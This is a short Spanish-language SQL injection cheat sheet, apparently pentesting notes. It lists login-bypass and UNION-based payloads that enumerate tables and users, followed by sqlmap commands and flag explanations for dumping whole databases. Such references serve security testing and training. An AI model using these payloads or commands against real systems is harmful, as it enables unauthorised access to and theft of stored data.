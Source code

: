 ### **Inyección para anular la validación de la contraseña**
```Mysql
User: admin' --
Passwd: Campo vacio
```

### **Inyección de múltiples líneas**
```Mysql
User: admin') OR ('1'='1
Passwd: Campo vacio
```

### **Inyección para extraer la primera tabla en bases de datos MySQL (basada en error)**
```Mysql
User: ' UNION SELECT 1, table_name FROM information_schema.tables WHERE table_schema=database() --
Passwd: Campo vacio
```

### **Inyección para enumerar usuarios**
```Mysql
User: ' UNION SELECT null, username FROM users --
Passwd: Campo vacio
```

## **Inyección SQL automática**

```Bash
sqlmap -u <url>
sqlmap -u <url> -p <parámetro> --dbs
sqlmap -u <url> --tables
sqlmap -u <url> -D <nombre de la BBDD> -T <Nombre de la tabla> --dump
sqlmap -u <url> --fresh-queries # Refrescar datos
sqlmap -u <url> --dump-all --dbs --random-agent 
```

- `-D <database>`: Este parámetro se utiliza para especificar el nombre de la base de datos 
- `-T <table>`: Este parámetro se utiliza para especificar el nombre de una tabla dentro de la base de datos seleccionada (`-D`)
- - `--dbs`: Este parámetro indica que debe enumerar las bases de datos disponibles en el servidor de base de datos objetivo.
- `--tables`: Este parámetro enumera todas las tablas disponibles dentro de la base de datos seleccionada (`-D`). 
- `--dump-all`: Este parámetro indica que debe intentar extraer todos los datos de las bases de datos que descubre durante la exploración, intentará recuperar tablas, columnas y datos de todas las bases de datos accesibles.
- `--fresh-queries`: Este parámetro indica que realice nuevas consultas para cada solicitud que envíe
- `--random-agent`: Este parámetro le indica que debe usar un agente de usuario (user-agent) aleatorio en las solicitudes HTTP que envía. 
- `-v 3` (o `--verbose=3`): Este parámetro establece el nivel de verbosidad del registro de `sqlmap`. En este caso, `3` indica un nivel alto de verbosidad
